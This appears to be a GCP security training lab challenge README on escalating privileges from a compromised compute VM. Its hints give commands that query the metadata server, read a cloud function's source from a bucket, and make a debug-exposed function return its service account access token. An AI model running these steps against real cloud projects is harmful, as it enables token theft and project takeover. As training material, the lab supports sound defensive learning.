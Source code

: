 # Challenge 4: Invoking answers

## Introcution

You can control a compute instance in the project! Let's find out which permissions this instance has in GCP.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list

> [!NOTE]  
> Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
> As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
> #####
>     curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"
> 
> As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  

The service account of this compute engine is the default compute service account: `<project-nr>-compute@developer.gserviceaccount.com`.  
A very powerful account in GCP! By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

## Your Goal

**Invoke and exploit another resource to find a powerful access token allowing you to gain control over the project**

## Useful commands and tools:
- the compute engine also has gcloud installed
- the compute engine has a script that could be helpful
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

## Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
      gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
      gsutil ls gs://cloud-function-bucket-challenge4
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone made it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email:
  #####
      curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

## First stage of compromise achieved!

When you completed the challenge read [here](../extras/first-stage-compromise.md) what your new access token can do.
